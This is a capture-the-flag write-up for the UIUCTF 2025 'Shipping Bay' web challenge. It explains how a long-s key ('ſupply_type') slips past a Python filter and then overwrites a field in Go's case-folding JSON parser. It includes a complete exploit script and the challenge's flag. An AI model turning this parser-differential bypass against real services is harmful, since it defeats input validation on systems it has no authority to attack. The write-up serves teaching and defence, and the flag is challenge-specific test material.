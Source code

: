 ```yaml
---
title: UIUCTF 2025 - Shipping Bay
date: 2025-07-30
lastmod: 2025-07-30T13:00:30+02:00
categories:
  - writeup
  - uiuctf25
tags:
  - web
  - python
  - go
  - parser differential
  - medium
authors:
  - Valenter
---
```

*UPS lost my package, so I'm switching to a more reliable carrier.*

Here we are in Chapter Three of our Cyberspace Odyssey for uiuctf; this time, we are tasked with retrieving a particular cosmic cargo that got lost during astral shipping.

![Homepage](/uiuctf2025/shipping-bay/screenshot-1.png)

A real flashback to the future with its Y2K/Vaporwave Classic Windows 98 UI, proof that even in the space age, fashion remains cyclical.

## Unpacking the interplanetary cargo

Let's try to create a new shipment.

![shipping](/uiuctf2025/shipping-bay/screenshot-2.png)

We can pick from a variety of options here, but it doesn't really matter, the space courier will always lose our package

```
https://shipping-bay.chal.uiuc.tf/?status=oops+we+lost+the+package
```

Prodding at the code, there doesn't seem to be much we can work with, this debugging flag looks interesting at first:

```python
if __name__ == '__main__':
	app.run(debug=True)
```

but it's merely a red herring, we have no way of triggering the Werkzeug debug console.

Among the various supply types, there is one that piques our interest:

```go
//main.go
func sendShipment(shipment Shipment) string {
    if shipment.SupplyType == "flag" {
        if flag, exists := os.LookupEnv("FLAG"); exists {
            return flag
        }
        return "uiuctf{fake_flag}"
    }
    return "oops we lost the package"
}
```

But in order to retrieve our package, we first have to go through two different checks, this one in Go and the first one in `index.py`:

```python
def create_shipment():
    shipment_data = {k.lower(): v for k, v in request.form.items()}

    if shipment_data['supply_type'] == "flag":
        return "Error: Invalid supply type", 400

    shipment_status = subprocess.check_output(["/home/user/processing_service", json.dumps(shipment_data)]).decode().strip()

    return redirect(url_for('index', status=shipment_status))
```

Flask collects all submitted fields into a dict, lowercasing each key, so we can't simply enter two identical `supply_type` parameters or use capital letters to trick it into accepting our input.

Note, however, that this still allows us to enter two different `supply_type` fields in our input, as long as the second one is worded ever-so-*slightly* differently.

But how can we bypass it while ensuring that Go still reads a properly formatted `supply_type = flag` from the resulting Json?

## Resistance is futile

Thankfully, my teammate Leonardo came to the rescue and found [this article](https://blog.trailofbits.com/2025/06/17/unexpected-security-footguns-in-gos-parsers/#case-insensitive-key-matching) that mentions this exact scenario.

We are going to use this character: `ſ` (Latin small long‑s, U+017F, unchanged by `.lower()`), which enables us to construct our final **payload**:

```python
    form = [
        ("origin",       uid),
        ("destination",  "Luna City"),
        ("weight",       "1 ton"),
        ("priority",     "Low"),
        ("vessel",       "USS Tomorrow"),
        ("supply_type",  "Tools"),           # passes the first python filter
        ("ſupply_type",   "flag"),           # overwrites the go parser
    ]
```

But **what** is going on under the hood?

On the **Python** side, only the ASCII‐key `"supply_type"` is checked, with our payload the ASCII key is still `"Tools"`, so this check passes.

```python
json.dumps(shipment_data)
subprocess.check_output(["/home/user/processing_service", json.dumps(shipment_data)])
```

Json marshalling turns the payload into:

```json
{
  "origin":"…",
  …,
  "supply_type":"Tools",
  "ſupply_type":"flag"
}
```
*note that both keys appear distinctly*

On the **Go** (processing_service) side:

- Go’s JSON unmarshaller scans keys in order and, upon each match, sets the struct field
```go
type Shipment struct {
    …
    SupplyType string `json:"supply_type"`
    …
}
```
- It matches keys using **Unicode case‑folding** (`strings.EqualFold`), which maps both ASCII “s” and the long‑s “ſ” to the same fold class “s”.
- Therefore:

	1. On seeing `"supply_type":"Tools"`, it sets `SupplyType = "Tools"`.

	2. On seeing `"ſupply_type":"flag"`, it also matches the same field (since “ſ” folds to “s”) and overwrites it with `"flag"`
This gives rise to a sort of pseudo-homographic **parser differential** attack.

#### Final script
```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
import re, uuid, requests
from urllib.parse import unquote_plus

BASE   = "https://shipping-bay.chal.uiuc.tf/"
CREATE = f"{BASE}/create_shipment"

def pretty(loc):
    if not loc:
        return None
    decoded = unquote_plus(loc)
    print("\n───── Location (decoded) ─────")
    for line in decoded.splitlines():
        print("│", line)
    print("───────────────────────────────")
    m = re.search(r"uiuctf\{[^}]+\}", decoded)
    return m.group(0) if m else None

def main():
    uid = f"Earth‑{uuid.uuid4()}"
    form = [
        ("origin",       uid),
        ("destination",  "Luna City"),
        ("weight",       "1 ton"),
        ("priority",     "Low"),
        ("vessel",       "USS Tomorrow"),
        ("supply_type",  "Tools"),           #passes Python filter
        ("ſupply_type",   "flag"),           #second field - passes Go's parser
    ]

    r = requests.post(CREATE, data=form, allow_redirects=False, timeout=5)
    print(f"[+] HTTP {r.status_code}")
    for k, v in r.headers.items():
        print(f"    {k}: {v}")

    flag = pretty(r.headers.get("Location", ""))
    print("\n[+] FLAG:", flag or "not found")

if __name__ == "__main__":
    main()
```
### ALL YOUR FLAGS ARE BELONG TO US

**`uiuctf{maybe_we_should_check_schemas_8e229f}`**
